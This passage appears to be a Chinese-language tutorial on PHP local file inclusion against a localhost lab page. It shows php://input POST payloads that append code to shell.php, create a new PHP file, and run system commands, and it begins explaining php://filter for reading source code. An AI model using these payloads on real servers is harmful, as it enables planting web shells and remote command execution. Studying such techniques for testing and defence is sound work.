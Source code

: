 ##### 姿势1：增加一句话
> shell.php文件中只有“123456”

URL:

```
http://localhost/fileinclude/index.php
?file=php://input
```

POST:(这里利用`hackbar`)

```php
<?php fputs(fopen("shell.php","a"),"<?php phpinfo();?>") ?>
```

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.5sh6ok33qg_1536892409)

结果将在`index.php`所在文件下的文件`shell.php`内增加"`<?php phpinfo();?>`"一句话。

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.vs835cfhsj_1536892416)

##### 姿势2：增加文件
URL
```
http://localhost/fileinclude/index.php
?file=php://input
```
POST:
```php
<?php fputs(fopen("oneword.php","w"),"<?php phpinfo();?>") ?>
```

这里fopen参数为w，可新建一个文件。即在当前目录新建`oneword.php`文件,内容为`<?php phpinfo();?>`

##### 姿势3：执行系统命令
URL：

```
http://localhost/fileinclude/index.php
?file=php://input
```

POST:

```php
<?php system('ipconfig');?>
```

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.sbxz1c0v1vl_1536892441)

#### `php://filter`

##### 说明
这个语句用来查看源码。**直接包含php文件时会被解析，不能看到源码**,所以用filter来读取,通过指定末尾的文件，可以读取经base64加密后的文件源码，之后再base64解码即可得到源码。虽然不能直接获取到shell等，但能读取敏感文件危害也是挺大的。

##### 利用条件：无甚
